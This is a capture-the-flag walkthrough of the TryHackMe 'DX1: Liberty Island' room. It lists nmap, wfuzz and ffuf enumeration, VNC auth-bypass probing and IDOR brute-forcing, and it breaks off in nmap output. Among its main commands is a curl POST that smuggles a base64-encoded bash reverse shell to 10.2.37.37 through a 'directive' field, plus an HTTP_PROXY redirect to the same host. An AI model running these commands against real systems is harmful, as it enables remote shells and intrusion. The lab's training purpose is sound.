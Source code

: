 # TryHackMe-DX1: Liberty Island

**Scope:**

- Insecure Direct Object Reference (IDOR)
- VNC (Virtual Network Computing) Protocol

**Keywords:**

- Directory Scan
- Insecure Direct Object Reference (IDOR) Brute Force
- Keyed-Hash Message Authentication Code (HMAC)
- VNC (Virtual Network Computing) Protocol
- HTTP Proxy
- vncviewer

**Main Commands:**

- `nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt --min-rate=1000 --max-retries=3 -Pn -p- $target_ip`
- `wfuzz -w /usr/share/wordlists/dirb/big.txt --hc 403,404,500,501,502,503 -c -L -t 50 http://dx1liberty.thm/FUZZ`
- `ffuf -u 'http://dx1liberty.thm/datacubes/0FUZZ' -w <(seq 1 10000) -mc 200,301,302 -t 70 -ic`
- `nmap -sV -A -oN nmap_vnc_result.txt -p 5901 --script vnc-info,realvnc-auth-bypass,vnc-title -Pn $target_ip`
- `msfconsole -qx 'use auxiliary/scanner/vnc/vnc_none_auth'`
- `vncviewer $target_ip:5901`
- `curl -iLX $'POST' -D unatcoresponse.txt -H 'Clearance-Code: 7gFfT74scCgzMqW4EQbu' --data-binary 'directive=echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjIuMzcuMzcvMTEyMjIgMD4mMQo= | base64 -d | bash' http://UNATCO:23023`

**System Commands:**

- `HTTP_PROXY=10.2.37.37:41122 ./badactors-list`

### Laboratory Environment

[TryHackMe | Cyber Security Training](https://tryhackme.com/r/room/dx1libertyislandplde)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt --min-rate=1000 --max-retries=3 -Pn -p- $target_ip`

```jsx
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: United Nations Anti-Terrorist Coalition
| http-robots.txt: 2 disallowed entries 
|_/datacubes *
|_http-server-header: Apache/2.4.41 (Ubuntu)
5901/tcp  open  vnc     VNC (protocol 3.8)
| vnc-info: 
|   Protocol version: 3.8
|   Security types: 
|     VeNCrypt (19)
|     VNC Authentication (2)
|   VeNCrypt auth subtypes: 
|     Unknown security type (2)
|_    VNC auth, Anonymous TLS (258)
23023/tcp open  unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 200 OK
|     Access-Control-Allow-Origin: *
```